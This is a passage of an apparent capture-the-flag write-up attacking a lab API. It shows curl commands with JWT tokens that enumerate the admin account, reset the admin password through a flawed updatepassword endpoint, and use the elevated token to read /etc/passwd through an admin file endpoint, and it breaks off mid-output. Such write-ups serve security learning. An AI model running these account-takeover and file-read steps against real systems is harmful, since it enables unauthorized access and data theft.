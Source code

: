 I've tried file and getFlag but in both cases I got permission error. /admin says false, that will be the reason. So what? Let's look on first user in system:

	└─$ curl -H "Authorization: Bearer eyJhbGciOiJSUzM4NCIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk4MzYyNTEyLCJpYXQiOjE2OTc2NzEzMTIsInN1YiI6IjIiLCJhZG1pbiI6ZmFsc2UsImd1aWQiOiJlMjNjNDZjZC1mZmM3LTQ1MDctYmZlMy05ZmViYjBjODk5MTkifQ.RoENKKNlG_xLUgfAbVrIwu-B2OndDEYmWMNopb11gCKgS88tIIzZp7l1bnTfCBKmvqp3_rMLY8G1bMPw-zI2l_S17X60gd5tmT-SP1t9HWnYwa2pEjHTLnmfQKxPUQHxc4eqLMkXhxDrvT4QAbhAvsZFE_GoJ2d3bmDiS16iUJZsQN3RQhaX1QXfat64yBpI6e7lWNGQQeABDsRuVJgyBCdtL5GbYGKtEdyWNd4dathx83PX4hMIzHhRDhWhchOoCBLhRYaiq_DDQukwomG7cDGO-KrZ7QvliHDnmDG_FmoOS-cSbRHQXv8EobBcDmRs2BJ3pC19nnXp0d0WVLuOnvrT413u3lC2Ttm3sEvPFf4epjjipAKLAOd1-XX22t7GzQMZ4M6lOYpPNzSh62ulKrOD7DU-mp0z1sRTyKajtRMmPi6McaHqh0gS1pS6xBi75Quvb738sMVrhSzBwNnAlWVrbebOvBfob-eUIFTr7KTXPrdgM7CDU9HztZL2kM71XGlVJuBrUNEVsobuty0w7_sgs9Vsmai54s7wqW9cPxZCTOVTOLUavbIyBTRx36jR9V3JaSQMvakKbfkoCez0eKEGf0AgaXykxxeu1QUqUY87cE0nKjQ3JMkv04-Q52lq3CjjHrLuJzCGlFk2SYMfdnQgpBowcJgHdEAXlfE7VaE" -XGET http://universal-ship-api.cns-jv.tcc/api/v1/user/1    
	{"guid":"b0d3d349-15a3-4fb7-a37e-baf645f5baa2","email":"admin@local.tcc","date":null,"time_created":1690796892351,"admin":true,"id":1} 

And now we can try updatepassowrd:

	└─$ curl -H "Authorization: Bearer eyJhbGciOiJSUzM4NCIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk4MzYyNTEyLCJpYXQiOjE2OTc2NzEzMTIsInN1YiI6IjIiLCJhZG1pbiI6ZmFsc2UsImd1aWQiOiJlMjNjNDZjZC1mZmM3LTQ1MDctYmZlMy05ZmViYjBjODk5MTkifQ.RoENKKNlG_xLUgfAbVrIwu-B2OndDEYmWMNopb11gCKgS88tIIzZp7l1bnTfCBKmvqp3_rMLY8G1bMPw-zI2l_S17X60gd5tmT-SP1t9HWnYwa2pEjHTLnmfQKxPUQHxc4eqLMkXhxDrvT4QAbhAvsZFE_GoJ2d3bmDiS16iUJZsQN3RQhaX1QXfat64yBpI6e7lWNGQQeABDsRuVJgyBCdtL5GbYGKtEdyWNd4dathx83PX4hMIzHhRDhWhchOoCBLhRYaiq_DDQukwomG7cDGO-KrZ7QvliHDnmDG_FmoOS-cSbRHQXv8EobBcDmRs2BJ3pC19nnXp0d0WVLuOnvrT413u3lC2Ttm3sEvPFf4epjjipAKLAOd1-XX22t7GzQMZ4M6lOYpPNzSh62ulKrOD7DU-mp0z1sRTyKajtRMmPi6McaHqh0gS1pS6xBi75Quvb738sMVrhSzBwNnAlWVrbebOvBfob-eUIFTr7KTXPrdgM7CDU9HztZL2kM71XGlVJuBrUNEVsobuty0w7_sgs9Vsmai54s7wqW9cPxZCTOVTOLUavbIyBTRx36jR9V3JaSQMvakKbfkoCez0eKEGf0AgaXykxxeu1QUqUY87cE0nKjQ3JMkv04-Q52lq3CjjHrLuJzCGlFk2SYMfdnQgpBowcJgHdEAXlfE7VaE" -XPOST -H "Content-type: application/json" -d '{"email": "admin", "guid": "b0d3d349-15a3-4fb7-a37e-baf645f5baa2", "password": "abcdef"}' http://universal-ship-api.cns-jv.tcc/api/v1/user/updatepassword
	{"guid":"b0d3d349-15a3-4fb7-a37e-baf645f5baa2","email":"admin@local.tcc","date":null,"time_created":1690796892351,"admin":true,"id":1} 

Seems working. So now repeat login procedure to get new authentication token and try again:

	└─$ curl -H "Authorization: Bearer eyJhbGciOiJSUzM4NCIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk4MzYzMzg1LCJpYXQiOjE2OTc2NzIxODUsInN1YiI6IjEiLCJhZG1pbiI6dHJ1ZSwiZ3VpZCI6ImIwZDNkMzQ5LTE1YTMtNGZiNy1hMzdlLWJhZjY0NWY1YmFhMiJ9.nDpeQ-cJaPTb9VQboXeRJCjaUTh6QYoEv0egm4wJUzO7w7YjsBwAgEY2t_TZt4r78HhlN2bY0gxhsfXrXzMdBfJz4isoCC0vEeOqNu2kaBvyIw4brJsRcmy_-aOHB-zJ7nmw-plF7_FSPbena_Apl-saE9YGjHCeGDvObxDVcpahMO07pgF0YvBPLJLYMm-MVP-1GQ5d-KbR9V0emJoRWCjDvhv3CseFZvLabTDze3k6xarrv5Argh9MUJtuEHAjwki6YY6YzVsULhR_YQeyjse5qcf2n97cpsEulgyWfGYpzeDuV1eH3A3w1k__smYnaaVb05W5NQ1MFGxIE1NgnZGEq4vTZstuO4mgZ9yDpkwwRcowCRNWiKY_AsCnAahG7D-Qe0UBMur5yzR8AFTtf13H8mYKLn4Y4DvxOV9eeu2BdzAwGrqwCy9xNxOaTitaj7gVU7BM_M6qwr9x6Jh7vK5aR88Jbn6sBXeCsyXqTjA3pvCXgIlUI1l1BhoSv7Ezv-aRE_j3Bxw8d5vi_xfzZbRtfl1Kn1W67AwAZh2CSnHgCDR5M4MI1q1RSPXX5QOQSJpS052gxg69TnwW_6EoP2TAQqLdsqIYhejFbFbXxa_6EFrssFOWuGmwyrjf1SLNSQ6Ac8DPjyxFdHSJREMeobSZrAuVkcMi2FzrI1zgUGY" -XGET http://universal-ship-api.cns-jv.tcc/api/v1/admin/ 
	{"results":true} 

Good. What about getFlag?

	{"detail":"flag-read key missing from JWT"} 

Not good. What about file (I've added some shell magic to get more readable output)?

	└─$ curl -s -H "Authorization: Bearer eyJhbGciOiJSUzM4NCIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk4MzYzMzg1LCJpYXQiOjE2OTc2NzIxODUsInN1YiI6IjEiLCJhZG1pbiI6dHJ1ZSwiZ3VpZCI6ImIwZDNkMzQ5LTE1YTMtNGZiNy1hMzdlLWJhZjY0NWY1YmFhMiJ9.nDpeQ-cJaPTb9VQboXeRJCjaUTh6QYoEv0egm4wJUzO7w7YjsBwAgEY2t_TZt4r78HhlN2bY0gxhsfXrXzMdBfJz4isoCC0vEeOqNu2kaBvyIw4brJsRcmy_-aOHB-zJ7nmw-plF7_FSPbena_Apl-saE9YGjHCeGDvObxDVcpahMO07pgF0YvBPLJLYMm-MVP-1GQ5d-KbR9V0emJoRWCjDvhv3CseFZvLabTDze3k6xarrv5Argh9MUJtuEHAjwki6YY6YzVsULhR_YQeyjse5qcf2n97cpsEulgyWfGYpzeDuV1eH3A3w1k__smYnaaVb05W5NQ1MFGxIE1NgnZGEq4vTZstuO4mgZ9yDpkwwRcowCRNWiKY_AsCnAahG7D-Qe0UBMur5yzR8AFTtf13H8mYKLn4Y4DvxOV9eeu2BdzAwGrqwCy9xNxOaTitaj7gVU7BM_M6qwr9x6Jh7vK5aR88Jbn6sBXeCsyXqTjA3pvCXgIlUI1l1BhoSv7Ezv-aRE_j3Bxw8d5vi_xfzZbRtfl1Kn1W67AwAZh2CSnHgCDR5M4MI1q1RSPXX5QOQSJpS052gxg69TnwW_6EoP2TAQqLdsqIYhejFbFbXxa_6EFrssFOWuGmwyrjf1SLNSQ6Ac8DPjyxFdHSJREMeobSZrAuVkcMi2FzrI1zgUGY" -XPOST -H "Content-type: application/json" -d '{"file": "/etc/passwd"}' http://universal-ship-api.cns-jv.tcc/api/v1/admin/file | jq .file | awk '{gsub(/\\n/,"\n")}1'
	"root:x:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin